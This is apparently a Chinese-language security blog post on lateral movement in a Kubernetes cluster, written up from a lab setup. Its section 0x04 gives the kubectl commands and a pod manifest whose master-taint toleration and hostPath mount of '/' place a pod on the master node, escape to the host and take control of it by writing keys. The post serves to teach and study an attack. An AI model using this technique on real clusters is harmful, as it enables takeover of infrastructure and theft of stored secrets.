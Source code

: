 ```yaml
---
date: "2021-07-20T00:00:00Z"
description: Kubernetes (通常称为 K8s) 是来自 Google 云平台的开源容器集群管理系统，用于自动部署、扩展和管理容器化（containerized）应用程序。本文介绍获取了其中某个节点的宿主机权限，如何横向移动到Master节点，从而获取整个集群的权限。
title: Kubernetes(K8s)横向移动办法
url: /archivers/2021-07-20/1
---
```


> 博客半年没写了，来除除草.... :(

## 0x01 Kubernetes 简介

Kubernetes 是一个可移植的、可扩展的开源平台，用于管理容器化的工作负载和服务，可促进声明式配置和自动化。 Kubernetes 拥有一个庞大且快速增长的生态系统。Kubernetes 的服务、支持和工具广泛可用。

![2021-07-20-11-19-39](https://images.payloads.online/b3682bc6-4f5f-11ec-a3a0-00d861bf4abb.png)

**传统部署时代：**

早期，各个组织机构在物理服务器上运行应用程序。无法为物理服务器中的应用程序定义资源边界，这会导致资源分配问题。 例如，如果在物理服务器上运行多个应用程序，则可能会出现一个应用程序占用大部分资源的情况， 结果可能导致其他应用程序的性能下降。 一种解决方案是在不同的物理服务器上运行每个应用程序，但是由于资源利用不足而无法扩展， 并且维护许多物理服务器的成本很高。

**虚拟化部署时代：**

作为解决方案，引入了虚拟化。虚拟化技术允许你在单个物理服务器的 CPU 上运行多个虚拟机（VM）。 虚拟化允许应用程序在 VM 之间隔离，并提供一定程度的安全，因为一个应用程序的信息 不能被另一应用程序随意访问。

虚拟化技术能够更好地利用物理服务器上的资源，并且因为可轻松地添加或更新应用程序 而可以实现更好的可伸缩性，降低硬件成本等等。

每个 VM 是一台完整的计算机，在虚拟化硬件之上运行所有组件，包括其自己的操作系统。

**容器部署时代：**

容器类似于 VM，但是它们具有被放宽的隔离属性，可以在应用程序之间共享操作系统（OS）。 因此，容器被认为是轻量级的。容器与 VM 类似，具有自己的文件系统、CPU、内存、进程空间等。 由于它们与基础架构分离，因此可以跨云和 OS 发行版本进行移植。

> 以上摘自Kubernetes官方文档：https://kubernetes.io/zh/docs/concepts/overview/what-is-kubernetes/

## 0x02 Kubernetes 关键概念介绍

Kubernetes有如下几个与本文相关的概念：

1. 节点(Node)
2. Pod
3. 容忍度(Toleration)与污点(Taint)


### 节点(Node)

Kubernetes 通过将容器放入在节点（Node）上运行的 Pod 中来执行你的工作负载。 节点可以是一个虚拟机或者物理机器，取决于所在的集群配置。最容易理解的例子：

![2021-07-20-10-38-26](https://images.payloads.online/b3b30a38-4f5f-11ec-8073-00d861bf4abb.png)

该集群有三个节点，我可以在这三个节点上创建很多个Pod，而Pod中可以包含多个容器。在所有的节点中，至少要有一个Master节点，Master节点是第一个加入集群的机器，它具有整个集群的最高权限，本文的目的就是研究如何通过其他节点，横向移动到Master节点，因为Secret敏感信息(令牌、账户密码、公私钥等等)都存储在Kubernetes的etcd数据库上。

### Pod

Pod是可以在 Kubernetes 中创建和管理的、最小的可部署的计算单元。

Pod（就像在鲸鱼荚或者豌豆荚中）是一组（一个或多个） 容器； 这些容器共享存储、网络、以及怎样运行这些容器的声明。 Pod中的内容总是并置（colocated）的并且一同调度，在共享的上下文中运行。 Pod所建模的是特定于应用的“逻辑主机”，其中包含一个或多个应用容器， 这些容器是相对紧密的耦合在一起的。 在非云环境中，在相同的物理机或虚拟机上运行的应用类似于 在同一逻辑主机上运行的云应用。

Pod的共享上下文包括一组 Linux 名字空间、控制组（cgroup）和可能一些其他的隔离方面，即用来隔离Docker容器的技术。 在Pod的上下文中，每个独立的应用可能会进一步实施隔离。

就Docker概念的术语而言，Pod类似于共享名字空间和文件系统卷的一组Docker容器，也就是说Pod是Docker容器的超集。


### 容忍度(Toleration)与污点(Taint)

Kubernetes可以约束一个 Pod 只能在特定的节点上运行。


节点亲和性 是Pod的一种属性，它使 Pod 被吸引到一类特定的节点 （这可能出于一种偏好，也可能是硬性要求）。 污点（Taint）则相反——它使节点能够排斥一类特定的 Pod。容忍度（Toleration）是应用于 Pod 上的，允许（但并不要求）Pod 调度到带有与之匹配的污点的节点上。**我们可以控制Pod创建时候的污点来向集群内的节点进行喷射创建。**


## 0x03 环境介绍

当前实验环境有三个节点，其中一个为Master节点，其余的都是普通节点。

![2021-07-20-10-56-11](https://images.payloads.online/b3ef7cfc-4f5f-11ec-984e-00d861bf4abb.png)

当前机器是node1，普通节点，节点全部为健康状态，接下来要利用创建Pod的功能，横向到k8s-master。


## 0x04 利用创建Pod横向移动

1. 确认Master节点的容忍度
   
```bash
$ kubectl describe node <Node Name>
```

![2021-07-20-10-59-50](https://images.payloads.online/b454933a-4f5f-11ec-a431-00d861bf4abb.png)

2. 创建带有容忍参数的Pod

```bash
$ kubectl create -f control-master.yaml
```

control-master.yaml内容：

```yaml
apiVersion: v1
kind: Pod
metadata:
name: control-master-3
spec:
tolerations:
- key: node-role.kubernetes.io/master
operator: Exists
effect: NoSchedule
containers:
- name: control-master-3
image: ubuntu:18.04
command: ["/bin/sleep", "3650d"]
volumeMounts:
- name: master
mountPath: /master
volumes:
- name: master
hostPath:
path: /
type: Directory
```

![2021-07-20-11-02-18](https://images.payloads.online/b4bba0de-4f5f-11ec-b260-00d861bf4abb.png)


在多次创建Pod后，会发现Pod会在Master节点上出现，再利用kubectl进入容器，执行逃逸。


![2021-07-20-11-06-24](https://images.payloads.online/b5136788-4f5f-11ec-9315-00d861bf4abb.png)

至此，逃逸完成，能够通过写公私钥的方式控制Master宿主机。

## 0x05 总结

本文通过了解Kubernetes的一些基本概念，完成了在节点中进行横向逃逸，但我没有实现指定节点的逃逸过程，因为在Kubernetes中低权限的节点无法修改Master节点的容忍度，因此要完成逃逸，需要在每一个节点上至少创建一个Pod，如果集群中节点数量庞大的话....
